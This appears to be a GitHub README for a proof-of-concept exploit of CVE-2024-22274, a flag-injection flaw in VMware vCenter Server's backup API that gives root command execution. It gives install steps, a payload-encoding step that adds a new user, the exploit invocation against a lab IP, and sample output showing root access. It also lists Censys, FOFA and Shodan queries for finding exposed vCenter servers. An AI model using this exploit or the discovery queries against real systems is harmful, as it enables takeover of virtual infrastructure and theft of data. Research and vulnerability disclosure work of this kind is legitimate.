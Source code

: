 <h1 align="center">
    Privilege Escalation: VMware vCenter Server Authenticated RCE
</h2>

<p align="center">
    <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2FCVE-2024-22274-RCE">
    <img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2FCVE-2024-22274-RCE&label=Visitors&countColor=%2337d67a" />
    </a>
    <a href="https://www.facebook.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Facebook-%231877F2.svg?style=for-the-badge&logo=Facebook&logoColor=white" alt="Facebook">
    </a>
      <a href="https://www.twitter.com/l0n3m4n">
        <img src="https://img.shields.io/badge/Twitter-%23000000.svg?style=for-the-badge&logo=X&logoColor=white" alt="X">
    </a>
    <a href="https://medium.com/@l0n3m4n">
        <img src="https://img.shields.io/badge/Medium-12100E?style=for-the-badge&logo=medium&logoColor=white" alt="Medium">
    </a>
    <a href="https://www.python.org/">
    <img src="https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54" alt="Python">
    </a>
    <a href="https://www.kali.org/">
    <img src="https://img.shields.io/badge/Kali-268BEE?style=for-the-badge&logo=kalilinux&logoColor=white" alt="Kali">
    </a>
</p>

## 📜 Description

The “com.vmware.appliance.recovery.backup.job.create” and the
“com.vmware.appliance.recovery.backup.validate” API components are vulnerable to a flag
injection attack that can be leveraged to execute arbitrary commands as the root user on
the target system."

## 📚 Table of Contents
- 📜 [Description](#-description)
- 🛠️ [Installation](#-installation)
- ⚙️ [Usage](#-usage)
- 🔎 [Discovery](#-discovery)
- 📝 [Notes](#notes)
- 💁 [References](#-references)
- 📢 [Disclaimer](#disclaimer)

## 🛠️ Installation and Configuration
> [!NOTE]
> To work with this PoC exploit, you must have valid credentials and log in to the VMware vCenter Server shell via SSH. The user must have the "admin" role, as specified in the `vcenter_creds.txt` file.
```bash
$ git clone https://github.com/l0n3m4n/CVE-2024-22274-RCE.git
$ cd CVE-2024-22274-RCE
$ python3 -m venv venv && source venv/bin/activate
$ pip install -r requirements.txt
```
> Run or modify `user2base64.sh` to  encode the newuser added into base64 and it automatically create `payload.txt`
```bash

$ bash user2base64.sh
Payload has been encoded to base64, saved payload.txt
```

## ⚙️ Usage
![VMware-vCenter](/assets/VMware-vCenter.png)

### Vulnerable Version
![vulnerable-version](/assets/vulnerable-version.png)
### Successful Execution and Exploitation
```bash
$ python3 CVE-2024-22274-RCE.py -t 192.168.56.103 -P 22 -p payload.txt -c vCenter_creds.txt
 ___ ___ _______                                          ______               __
|   |   |   |   |.--.--.--.---.-.----.-----.______.--.--.|      |.-----.-----.|  |_.-----.----.
|   |   |       ||  |  |  |  _  |   _|  -__|______|  |  ||   ---||  -__|     ||   _|  -__|   _|
 \_____/|__|_|__||________|___._|__| |_____|       \___/ |______||_____|__|__||____|_____|__|

                Author: l0n3m4n | vCenter RCE: CVE-2024-22274 | PoC: @mbadanoiu

[+] Connected to 192.168.56.103 via SSH
[+] Payload executed successfully. Output:
   uid=0(root) gid=0(root) groups=0(root)

[+] Exploitation successful: You have root access.
[+] Finished executing commands on 192.168.56.103

```
### Successful Execution but No Root Access
> This example means your getting connected but the payload not correctly configured or loaded. [Refer to PDF PoC](/assets/VMware-vCenter.pdf) for more detailed infomation.
```bash
 ___ ___ _______                                          ______               __
|   |   |   |   |.--.--.--.---.-.----.-----.______.--.--.|      |.-----.-----.|  |_.-----.----.
|   |   |       ||  |  |  |  _  |   _|  -__|______|  |  ||   ---||  -__|     ||   _|  -__|   _|
 \_____/|__|_|__||________|___._|__| |_____|       \___/ |______||_____|__|__||____|_____|__|

                Author: l0n3m4n | vCenter RCE: CVE-2024-22274 | PoC: @mbadanoiu

[+] Connected to 192.168.56.103 via SSH
[+] Payload executed successfully. Output:
   No privileges escalation detected.

[+] Exploitation failed: Root access not obtained.
[+] Finished executing commands on 192.168.56.103
```
### Missing Username or Password in Configuration File
```bash
 ___ ___ _______                                          ______               __
|   |   |   |   |.--.--.--.---.-.----.-----.______.--.--.|      |.-----.-----.|  |_.-----.----.
|   |   |       ||  |  |  |  _  |   _|  -__|______|  |  ||   ---||  -__|     ||   _|  -__|   _|
 \_____/|__|_|__||________|___._|__| |_____|       \___/ |______||_____|__|__||____|_____|__|

                Author: l0n3m4n | vCenter RCE: CVE-2024-22274 | PoC: @mbadanoiu

[-] Error: Username or password not found in configuration file.
```
### Connection Failure or SSH Error
> Please check the host address and credentials.
```bash
 ___ ___ _______                                          ______               __
|   |   |   |   |.--.--.--.---.-.----.-----.______.--.--.|      |.-----.-----.|  |_.-----.----.
|   |   |       ||  |  |  |  _  |   _|  -__|______|  |  ||   ---||  -__|     ||   _|  -__|   _|
 \_____/|__|_|__||________|___._|__| |_____|       \___/ |______||_____|__|__||____|_____|__|

                Author: l0n3m4n | vCenter RCE: CVE-2024-22274 | PoC: @mbadanoiu

[-] Error: [SSH Error] Connection to 192.168.56.103 failed.
```
## 🔎 Discovery
- **CENSYS**: `"VMware vCenter"`, **Filter**: `services.port: 443 AND tags: "VMware"`
- **FOFA**: `title="VMware vCenter"`, **Filter**: `port="443" && title="VMware vCenter"`
- **SHODAN**: `"VMware vCenter"`, **Filter**: `port:443 "VMware vCenter"`

## 📝 Notes
This exploit PoC won’t be effective if you don’t understand how to interpret the script, as it has been intentionally altered to prevent "script kiddies"  from simply copying and running it without comprehension. VMware vCenter Server is a critical component in managing virtualized environments, if someone access to it they can gain a full control over the virtual infrastructure and exfiltrate sensitive data. this PoC is designed for those already have small technical expertise to use it correctly, so if you’re script kiddies aiming to cause disruption without understanding the implications this exploit won’t be useful for you.

## 💁 References
- http://www.vmware.com/security/advisories
- https://nvd.nist.gov/vuln/detail/CVE-2024-22274
- https://www.cnnvd.org.cn/home/globalSearch?keyword=CNNVD-202405-4049
- https://bdu.fstec.ru/vul/2024-05108
- https://github.com/advisories/GHSA-xm44-79f8-q8r7

## 📢 Disclaimer
This tool is provided for educational and research purposes only. The creator assumes no responsibility for any misuse or damage caused by the tool. [create issue](https://github.com/l0n3m4n/CVE-2024-22274-RCE/issues)

